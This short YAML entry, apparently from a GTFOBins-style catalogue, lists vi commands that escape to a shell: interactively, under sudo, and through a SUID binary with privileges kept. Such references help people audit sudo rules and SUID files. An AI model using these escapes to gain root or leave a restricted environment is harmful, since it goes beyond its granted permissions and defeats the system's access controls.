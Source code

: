 ```yaml
---
functions:
  execute-interactive:
    - code: vi -c ':!/bin/sh'
    - code: |
        vi
        :set shell=/bin/sh
        :shell
  sudo-enabled:
    - code: sudo vi -c ':!/bin/sh'
  suid-enabled:
    - code: ./vi -c ':!/bin/sh -p'
---
```

